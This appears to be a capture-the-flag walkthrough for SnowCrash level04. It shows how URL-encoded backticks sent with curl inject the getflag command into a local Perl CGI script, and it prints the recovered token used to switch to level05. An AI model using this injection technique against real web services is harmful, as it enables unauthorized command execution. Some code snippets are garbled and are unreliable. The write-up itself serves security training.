 
## 1 Execute the Command

To retrieve the token using the getflag command through the Perl script, run the following curl command:

``` console
level04@SnowCrash:~$ curl "http://localhost:4747/level04.pl?x=%60getflag%60"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
## 2 Switch to Level 05

Use the retrieved token to switch to the next level:

``` console
level04@SnowCrash:~$ su level05
Password: ne2searoevaevoem4ov4ar8ap
```

## Understanding the Perl Script:

The script uses the CGI module to read parameters from the URL. It calls the ``function x(param("x"))``, where ``param("x")`` retrieves the value of the query parameter `x`. Inside the function x, it executes the command using backticks: 
```perl
print echo $y 2>&1``. 
```
This means whatever is passed as `x` is executed as a shell command, and the output is printed back to the web browser.

#### Original Command Attempt: ❌

When you tried to use backticks directly in the URL, like 
``` bash
curl "http://localhost:4747/level04.pl?x=\getflag`"`
```
, the shell was interpreting it before it even reached the script, so it didn't work. 

#### Using URL Encoding:🔄

URL encoding converts special characters into a format that can be transmitted over the internet. The backtick character (`) is a special character in the shell, so it needed to be encoded. By encoding the backticks as %60, the command becomes 
```bash
curl "http://localhost:4747/level04.pl?x=%60getflag%60". Command Execution:
```
### Command Execution 🚀
The encoded command sent to the script effectively allows it to interpret the entire string as a command to execute. When the script executes 
``` bash 
echo $y
```
 where `$y` is now `getflag`, it calls the getflag command, which runs with the permissions of the script itself (in this case, likely elevated due to the setuid bit). 

Output Handling 📬

The command's output 
``` bash 
Check flag. Here is your token: ne2searoevaevoem4ov4ar8ap
``` 
was then sent back to your terminal via the curl command. This output confirms that the command was executed successfully, and the expected result was printed.
